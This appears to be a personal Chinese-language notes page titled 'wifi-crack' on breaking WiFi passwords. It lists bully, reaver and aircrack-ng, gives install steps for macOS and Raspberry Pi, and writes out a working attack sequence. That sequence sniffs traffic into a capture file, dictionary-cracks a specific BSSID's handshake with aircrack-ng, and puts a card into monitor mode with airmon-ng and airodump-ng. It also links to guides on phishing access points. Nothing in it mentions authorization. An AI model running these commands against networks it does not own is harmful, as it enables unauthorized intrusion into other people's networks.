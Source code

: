 ```yaml
---
title:  wifi-crack
heading: 
date: 2021-11-23T13:37:23.761Z
categories: ["other"]
tags: 
description: 
---
```


关于破解的方法和思路参考[渗透测试之构建高效WiFi破解字典](https://www.anquanke.com/post/id/219315)

常见工具：  

- [bully](https://www.kali.org/tools/bully/)
- [reaver](https://www.kali.org/tools/reaver/)
- [aircrack-ng](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx)


参考程[aircrack-ng](https://github.com/aircrack-ng/aircrack-ng)教安装
``` 
brew install autoconf automake libtool openssl shtool pkg-config hwloc pcre sqlite3 libpcap cmocka
```
下载[aircrack-ng.tar.gz](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx)

解压后安装
```bash
 cd aircrack-ng-1.6
 autoreconf -i
 ./configure --with-experimental
 gmake
 gmake install
 ldconfig
```


```
airport -s
sudo rm -rf /tmp/airport*
sudo airport en0 sniff 3
ls -lh /tmp/airport*
aircrack-ng -w top100.txt -M 100 -f 80 -1 -a 2 -b 0c:5c:b5:c8:04:eb /tmp/airportSniff*.cap
```



使用Aircrack-ng工具，依次输入以下命令  

```bash
# 防止设备繁忙  
1.airmon-ng check kill  
查看无线网卡状态
2.ifconfig/iwconfig -a
加载无线网卡，已加载则忽略
3.ifconfig wlan0 up
激活网卡
4.airmon-ng start wlan0
探测无线网络
5.airodump-ng mon0
```

## 树莓派上安装

```bash
sudo vi /etc/ssh/sshd_config

```

mac shell ssh 连接树莓派[中文乱码](https://monsoir.github.io/Notes/RaspberryPie/raspberry-ssh-locale.html)
```bash
/etc/ssh/sshd_config
# AcceptEnv LANG LC_*
systemctl restart sshd
echo "export LC_ALL=en_US.UTF-8" >> ~/.bash_profile
echo "export LANG=en_US.UTF-8" >> ~/.bash_profile
```


安装依赖
```bash
sudo apt-get update
sudo apt-get install -y libpcap-dev libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion ethtool
sudo apt-get install -y libnl-3-200 libnl-3-dev libnl-genl-3-dev libnl-genl-3-200
```

通过编译的方式[安装](https://www.aircrack-ng.org/doku.php?id=install_aircrack#compiling_and_installing) 
```bash
wget https://download.aircrack-ng.org/aircrack-ng-1.6.tar.gz
tar -zxvf aircrack-ng-1.6.tar.gz
cd aircrack-ng-1.6
autoreconf -i
./configure --with-experimental
make
make install
ldconfig
```



参考  
- [WiFi 安全与攻击案例分析](https://paper.seebug.org/1159/)
- [cracking-wifi-at-scale-with-one-simple-trick](https://www.cyberark.com/resources/threat-research-blog/cracking-wifi-at-scale-with-one-simple-trick)
- [wifi-attack-tools](https://linuxhint.com/wireless-attack-tools-kali-linux/)
- [wifi密码破解方法记录](https://www.jianshu.com/p/44d54b5369d8)
- [Mac上使用aircrack-ng破解Wi-Fi密码](https://uare.github.io/2016/cracking-wifi-by-aircrack-ng-on-mac)
- [近源渗透，超低成本打造自定义专属钓鱼WIFI](https://www.freebuf.com/articles/wireless/272733.html)
- [无线局域网攻防之Wi-Fi破解](https://www.freebuf.com/articles/wireless/280568.html)
- [知道创宇研发技能表v3](https://blog.knownsec.com/Knownsec_RD_Checklist/index.html)